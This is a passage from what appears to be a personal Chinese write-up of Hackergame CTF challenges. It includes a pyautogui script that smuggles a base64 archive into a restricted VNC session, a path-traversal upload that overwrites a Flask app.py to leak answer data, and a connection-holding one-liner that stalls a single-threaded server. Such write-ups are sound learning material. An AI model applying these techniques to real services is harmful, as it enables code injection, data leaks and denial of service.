        pyautogui.typewrite(text_to_type[i:i+100])
        pyautogui.press('enter')
        time.sleep(0.05)
    pyautogui.press('esc')
    pyautogui.typewrite(":wq")
    pyautogui.press('enter')
    # 去掉换行
    pyautogui.typewrite("tr -d '\\n' < 1.txt > 1_no_space.txt") 
    pyautogui.press('enter')
    # base64解码
    pyautogui.typewrite("base64 -d 1_no_space.txt > output.tgz")
    pyautogui.press('enter')
    # 解压
    pyautogui.typewrite("tar -xzvf output.tgz")
    pyautogui.press('enter')
   ```

解压后，根据网页提示，将`secret`转换成600多个二维码，同时打开自己电脑的OBS Studio，开启虚拟摄像头，捕获vnc窗口，浏览器打开`decode.html`选择虚拟摄像头，然后扫码，得到`secret`文件（缺哪个文件块就把进度条拖回来重新刷）。  
PS: 如果网页太卡了就把输出的分辨率调小点。

最后将`secret`文件上传，即可拿到flag: `flag{SeCret_cAN_B3_Le4K3d_FrOm_R3s7RIc7Ed_Env_9f25bee3a6}`

## 禁止内卷

首先，这是个web题，不是math题，所以暴力枚举，根据平方差变化找flag是不可行的，详见题目源码：

```python
def get_answer():
    with open("answers.json") as f:
        answers = json.load(f)
        # 此处将负数值归零
        for idx, i in enumerate(answers):
            if i < 0:
                answers[idx] = 0
    return answers
```

所以，我们只需要用某种方式输出`answers.json`文件的内容即可。

仔细看源码，可以发现这里有个目录穿越漏洞

```python
UPLOAD_DIR = "/tmp/uploads"

@app.route("/submit", methods=["POST"])
def submit():
    if "file" not in request.files or request.files['file'].filename == "":
        flash("你忘了上传文件")
        return redirect("/")
    file = request.files['file']
    filename = file.filename
    # 这里的filename如果是../开头的话，就会导致目录遍历漏洞，访问上一级目录
    filepath = os.path.join(UPLOAD_DIR, filename)
```

根据题干中的`启动的完整命令为 flask run --reload --host 0。网站代码运行在 /tmp/web`，可以知道`answer.json`的完整路径且命令里没写指定的文件，那么这段源码的路径就是`/tmp/web/app.py`，且网站实时重载，所以我们只需要上传一个被篡改后的`../web/app.py`的文件即可。

给`app.py`加个路由吧！

```python
@app.route("/yushengjun", methods=["GET"])
def answer():
    with open("answers.json") as f:
        answers = json.load(f)
    # answer + 65 ascii转换
    answers = "".join([chr(i + 65) for i in answers])
    flash(answers)
    return redirect("/")
```

将改完的 python 文件命名为`yushengjun.py`，然后写个请求传上去。

```python
import requests

url = 'https://chal02-xxxxxx.hack-challenge.lug.ustc.edu.cn:8443/submit'
with open('yushengjun.py', 'r', encoding='utf-8') as f:
    file_content = f.read()
files = {'file': ('../web/app.py', file_content)}
response = requests.post(url, files=files)
```

然后访问`/yushengjun`



得到flag: `flag{uno!!!!_esrever_now_U_run_MY_c0de93786e19ba}`

## 动画分享

> 卧 槽 我 手 搓 H T T P 服 务 器

第一小题因为代码没写多线程处理，所以我们不妨写一个“流氓请求”，蹲着茅坑不拉屎，等到flag就行了。

```bash
#!/bin/sh

python3 -c "import socket, time; s = socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect(('127.0.0.1', 8000)); print('Connected.'); time.sleep(60); s.close(); print('Connection closed.')"
```

别问我为什么用`python -c`，因为我用python的shebang不好使。

得到第一个flag: `flag{wa1t_no0O0oooO_mY_b1azIngfA5t_raust_f11r5erVer_df46c1d448}`

第二小题我知道是CVE，并且我确信我有了一个奇妙的解法，可是这里的空间太小，写不下。

## 强大的正则表达式

本题解探讨一下不知道DFA的人如何解这道题的第二问，并且我只保留了第二问提交的正则表达式。

Google搜一下regex binary string divisible by n，找到这个Codewars的题目。


点进Solutions，找到符合题目要求的代码，直接生成一个就好了。



找到这位仁兄的代码，复制到浏览器console，调用函数，提交即可。



得到flag是: `flag{pow3rful_r3gular_expressi0n_medium_4570ab8b6c}`

## 优雅的不等式

要把flag1拿出来，总共分几步？

第一步：打开网页
第二步：输入`4*((1-x**2)**(1/2)-(1-x))`
第三步：输入`4*((1-x**2)**(1/2)-(1-x**2))`

得到flag1: `flag{y0u_ar3_g0od_at_constructi0n_ddfe6a4330}`

flag2: `flag{我不会，长大后再学习}`

剩下的感觉自己写不明白，遂放弃。白白~

## 感言

上大学的时候就一直想打CTF，因为之前一个人通关过[nazo game](https://nazo.one-story.cn/)，但是学校根本不认这个比赛，我们学校实际上有一个CTF战队，但是战队眼瞎，只招关系户。  
如今毕业一年了（毕业一年也是一），前几天[刷蓝鸟看到梗图](https://x.com/0x88FFA357/status/1851135764069040578)，第一次知道Hackergame，然后这就是梦开始的地方了（这辈子第一次打CTF，~~被ACM耽误四年~~）。  
今年hg真好玩，明年还来玩！
